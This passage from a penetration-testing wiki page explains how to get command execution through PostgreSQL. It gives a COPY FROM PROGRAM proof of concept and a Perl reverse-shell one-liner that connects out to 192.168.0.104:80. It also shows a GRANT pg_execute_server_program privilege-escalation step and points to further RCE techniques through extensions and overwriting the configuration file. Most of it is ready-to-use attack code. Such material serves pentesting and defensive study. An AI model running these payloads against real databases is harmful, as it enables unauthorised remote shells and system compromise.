 ```bash
#PoC
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

#Reverse shell
#Notice that in order to scape a single quote you need to put 2 single quotes
COPY files FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.0.104:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';
```

{% hint style="warning" %}
Remember that if you aren't super user but has the **`CREATEROLE`** permissions you can **make yourself member of that group:**

```sql
GRANT pg_execute_server_program TO username;
```

[**More info.**](../../../network-services-pentesting/pentesting-postgresql.md#privilege-escalation-with-createrole)
{% endhint %}

Or use the `multi/postgres/postgres_copy_from_program_cmd_exec` module from **metasploit**.\
More information about this vulnerability [**here**](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5). While reported as CVE-2019-9193, Postges declared this was a [feature and will not be fixed](https://www.postgresql.org/about/news/cve-2019-9193-not-a-security-vulnerability-1935/).

### RCE with PostgreSQL Languages

{% content-ref url="rce-with-postgresql-languages.md" %}
[rce-with-postgresql-languages.md](rce-with-postgresql-languages.md)
{% endcontent-ref %}

### RCE with PostgreSQL extensions

Once you have **learned** from the previous post **how to upload binary files** you could try obtain **RCE uploading a postgresql extension and loading it**.\


{% content-ref url="rce-with-postgresql-extensions.md" %}
[rce-with-postgresql-extensions.md](rce-with-postgresql-extensions.md)
{% endcontent-ref %}

### PostgreSQL configuration file RCE

The **configuration file** of postgresql is **writable** by the **postgres user** which is the one running the database, so as **superuser** you can write files in the filesystem, and therefore you can **overwrite this file.**

![](<../../../.gitbook/assets/image (303).png>)
